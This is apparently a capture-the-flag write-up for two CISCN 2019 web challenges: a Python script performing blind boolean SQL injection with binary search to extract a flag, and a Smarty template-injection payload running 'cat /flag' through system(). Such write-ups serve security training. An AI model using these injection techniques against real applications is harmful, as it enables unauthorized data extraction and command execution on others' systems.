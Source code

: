 # CISCN 2019

## Web

### \[华北赛区 Day2 Web1] Hack World

```python
import time
import requests

url = 'http://b478134c-6e5f-4069-8910-4f12fc9bab6c.node4.buuoj.cn:81/'
results = []
session = requests.Session()

for i in range(1,43):
    start = 32
    end = 127
    for j in range(start, end):
        mid = (start + end) // 2
        data = {"id": f"0^(ascii(substr((select(flag)from(flag)),{i},1))>{mid})"}
        time.sleep(0.1)
        ret = session.post(url, data=data)
        if 'Hello, glzjin wants a girlfriend.' in ret.text:
            start = mid
        else:
            end = mid
        if (end - start) <= 1:
            results.append(chr(end))
            print(''.join(results))
            break
```

### \[华东南赛区] Web11

底部带有提示 `Build With Smarty !` ，猜测是 Smarty SSTI 注入。

* `{php}{/php}` ，在 Smarty 3.1， `{php}{/php}` 仅在 SmartyBC 中可用。
* `{literal}` ，使得模板字符原样输出。
* `getStreamVariable` ，读取一个文件并返回内容
* `{if}{/if}`

构造 Payload 如下

```
{if system('cat /flag')}{/if}
```

查看源代码即可获得 flag 。
